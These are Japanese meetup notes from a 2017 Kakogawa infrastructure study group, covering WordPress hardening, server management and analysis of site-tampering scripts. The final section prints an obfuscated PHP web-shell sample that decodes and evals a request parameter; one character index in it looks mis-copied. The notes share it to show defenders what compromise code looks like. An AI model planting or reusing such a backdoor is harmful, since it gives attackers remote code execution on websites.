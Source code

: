 ```yaml
---
title: 加古川IT系インフラ勉強会 2017.09
date: 2017-09-09
categories:
  - 開催履歴
tags:
  - 加古川IT系インフラ勉強会
---
```


# 加古川IT系インフラ勉強会 2017.09

* 開催日：2017/09/09
* 司会：wate
* 参加者数：参加者: 6名 / 学生: 0名 / Hangout: 1名
* 備考：気付いたことなど、自由に記入をお願いします！
* Connpass: https://histudy.connpass.com/event/66082/
* ハッシュタグ：#kakogawa_infra

---

## 脆弱性

* MySQLの不満あれこれ
  * いつの間にかテーブルサイズが肥大化する
  * プラグインによっては、wp_options テーブルが肥大化。。。
  * 「汎用化」に振りすぎ？
* Wordpressのセキュリティ対策
  * REST APIで脆弱性が増えたかも
  * パーミッションに注意
  * セーフモードは既に意味なさげ
  * プラグインを制限する
  * 接続元を国内限定にする(かなり効いた)
  * ファイルのチェックサムを取る
  * gitで管理する
  * WPScanかける
  * ...のような面倒な作業はJenkinsに任せたい(LDAPサーバどうしよう)
* Jenkinsによる自動化とか勉強会やってみたい
  * Jenkins2.0でPipelineが導入された。便利そう
* うちのインフラ部門がAmazon Linux大好きなので、最近そちらやってます
  * Debian慣れしてるので、Amazon Linux 気持ち悪い
  * RedHatに似てるが、バージョンをがんがんあげるので互換性に不安
* CentOS めんどくさい
  * 7に移行中です
  * 7になれてない人大丈夫？
* やはりサーバは2-3年で更新しないと
* クラウドで管理はだいぶ楽になった
  * Shell Scrptでちまちま管理してましたがAnsibleでOK
  * OpenStackまわりとかやってみたいね(ConoHaとか)
* Vineなつかし。MecabはまだUTF-8がデフォルトじゃないのかしら
* 幸いWordPressの闇はまだ見たことないです
* Webの勉強会開催は難しい?
  * 勉強会のフォームを用意して、「あとはよろしくね」というメソッドが有効?
  * WordBench姫路開催の予感
  * WordBench京都、大阪、神戸の所感もげもげ
* サーバ管理ネタをWordBenchあたりで話してみる?
  * 管理者の視点で言えることとか
* サーバアプリケーションの脆弱性対応は、業者ではやりにくい(検閲とかに該当)
* WordPress改竄スクリプトの解析とかやってるところもあります
* 改竄コードの例
  * $$dataという変数に、あらかじめbase64でエンコードしておいた生データをデコード、代入している
  * $$dataをそのままeval、とかやってそう
  * 怪し気なzipファイルを展開している
  * zipファイル展開確認。フィッシングサイトを開設するとおぼしきphpのコード一式が入っていた
  * おそらく同時に撒いたであろうspamにここのURLが入ってるはず
  * ACLファイルを入れ替えられてるも
* Fail2banをSMTPなどにも入れている
* sshアクセスはWebからのアクセス元のみに限定する
* FollowSymlinkの禁止を導入したが、一部ツールはこれに依存していたりする
* JavaScriptの脆弱性
  * 難読コード(昔の一例)

```php
<?php
    $sF="PCT4BA6ODSE_";
    $s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
    $s20=strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[0]);if (isset(${$s20}['nd335c3'])) {
        eval($s21(${$s20}['nd335c3']));
    }
?>
```
